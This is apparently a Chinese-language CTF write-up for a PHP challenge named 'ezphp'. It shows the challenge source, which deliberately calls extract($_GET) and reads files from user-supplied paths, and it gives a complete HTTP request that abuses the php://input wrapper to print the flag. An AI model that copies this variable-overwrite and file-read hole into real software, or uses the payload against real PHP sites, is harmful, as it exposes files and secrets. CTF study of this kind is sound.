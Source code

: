 # ezphp wp

本来是想考extract的两个知识点的，结果第二个知识点也可以解第一个知识，废了，非预期了

## 题目源码

```php
<?php
include 'flag.php';
extract($_GET);
if (isset($wsf)) {
    $xmm = trim(file_get_contents($zm));
    if ($xmm == $wsf) {
        if (!empty($xlq)) {
            $xw = trim(file_get_contents($fn));
            if ($xlq === $xw) {

                echo "<p>$flag</p>";
            } else {
                echo '<p>no no no </p>';
            }
        } else 'You cant do that!!';
    } else {
        echo 'hacker!!';
    }
} else {
    highlight_file(__FILE__);
}
?>

```

## 解题过程

这题逻辑很简单，想要拿到flag有两个要绕过

一个是`isset($wsf)`之后要`$xmm == $wsf`

一个是`!empty($xlq)`还要`$xlq === $xw`

其实这里为什么一个用isset一个用empty呢？

因为这里想考两个知识点，但是因为后面的empty是前者更严格的一种检查

所以能绕过后面的判断的肯定可以绕过前面的

第一个想考的其实是extract的利用

可以把`$wsf`设置为空，把`$zm`也设置为空，这样`$xmm`也为空

这样就绕过第一个空了

第二个则是php伪协议的利用

使用 php://input 伪协议绕过 

将要GET的参数?xxx=php://input 

然后用post方法传入值

## Payload

```http
POST /?wsf=&zm=&xlq=1&fn=php://input HTTP/1.1
Host: 127.0.0.1:1031
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Enctype: application/x-www-from-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 1

1
```

## Other

原本个人以为这应该是一道难度很巧妙的区分题的（区分会不会搜索

因为`file_get_contents`和`extract`都是被考烂了的知识点，随便一搜就一大堆文章

但是没想到最后才两解（哭死